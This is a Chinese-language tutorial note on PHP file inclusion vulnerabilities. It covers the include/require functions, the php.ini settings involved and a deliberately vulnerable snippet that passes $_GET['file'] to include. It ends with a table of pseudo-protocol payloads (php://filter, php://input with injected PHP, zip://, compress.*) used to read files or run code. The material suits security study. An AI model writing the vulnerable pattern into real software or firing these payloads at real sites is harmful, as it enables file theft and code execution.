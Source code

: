 

**漏洞危害**

1. 读取敏感文件
2. 获取webshell
3. 任意命令执行
4. 在某些情况下，根据LFI漏洞的性质，可以运行系统可执行文件



**产生原因**

在通过 PHP 的函数引入文件时，由于传入的文件名没有经过合理的校验，从而操作了预想之外的文件，就可能导致意外的文件泄露甚至恶意的代码注入

**如何利用**

1. 用户能够控制这个动态变量
2. include()等函数通过动态变量的方式引入需要包含的文件



**存在漏洞的函数**：

- **include()**
只有代码执行到此函数时才将文件包含进来，发生错误时只警告并继续执行。
- **require()**
只要程序执行，立即调用此函数包含文件，发生错误时，会输出错误信息并立即终止程序。
- **include_once()**
功能include()一样，区别在于当重复调用同一文件时，程序只调用一次。
- **require_once()**
功能require()一样，区别在于当重复调用同一文件时，程序只调用一次。

文件包含功能要实现，`需要在PHP的配置文件php.ini中开启allow_url_include；如果是远程文件包含，则除此之外还需要开启allow_url_fopen。`


存在文件包含漏洞的php源码：

```php
<?php
$a = @$_GET['file'];
include $a;
?>
```


`php伪协议`文件包含：

```
File://  访问本地文件系统
http://  访问HTTPs网址
ftp://  访问ftp URL
Php://  访问输入输出流
Zlib://  压缩流
Data://  数据
Ssh2://  security shell2
Expect://  处理交互式的流
Glob://  查找匹配的文件路径
```

|协议|测试PHP版本|allow_url_fopen|allow_url_include|语法|
|-   |-          |-             |                 -| -|
|file:// | >=5.2| off/on| off/on| ?file=file://C:/phpStudy/PHPTutorial/WWW/flag.txt|
|php://filter| >=5.2|off/on| off/on| ?file=php://filter/read=convert.base64-decode/resource=./index.php
|php://input| >=5.2|off/on| `on`| `?file=php://input [POST DATE] <?php phpinfo();?>`
|zip://| >=5.2|off/on| off/on| `?file=zip://C:/phpStudy/PHPTutorial/WWW/file.zip%23phpcode.txt`
|compress.bzip2://| >=5.2|off/on| off/on| `?file=compress.bzip2://file.bz2` 或 `?file=compress.bzip2://C:/phpStudy/PHPTutorial/WWW/flle.bz2`
|compress.zlib://| >=5.2|off/on| off/on| `?file=compress.zlib://file.bz2` 或 `?file=compress.zlib://C:/phpStudy/PHPTutorial/WWW/flle.bz2`